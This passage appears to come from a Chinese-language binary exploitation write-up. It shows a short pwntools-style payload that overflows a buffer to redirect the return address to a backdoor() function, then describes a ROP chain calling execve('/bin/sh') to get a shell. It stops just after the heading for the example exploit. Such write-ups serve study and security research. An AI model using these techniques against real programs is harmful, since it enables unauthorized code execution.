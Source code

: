 ```plain
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(0x401B46) # address of backdoor
```

效果如图，发现可以的确可以劫持 ret 地址为`backdoor()`

[![](assets/1701606727-5a206e35392289e7d18a408aa80b3ad6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164725-46505a3e-7d4a-1.png)

更进一步，我们尝试用 rop 调用`sys_execve("/bin/sh",0,0)`来 getshell. 这里由于没有找到`/bin/sh`的字符串，可以自己调用 read 读一个到已知地址去，最终成功 getshell

[![](assets/1701606727-de4e17ff5b7793b7a836e97cb7eb510f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164737-4d293132-7d4a-1.png)

#### 示例 exp

本身测试代码比较简单，这里的 exp 只作为研究参考
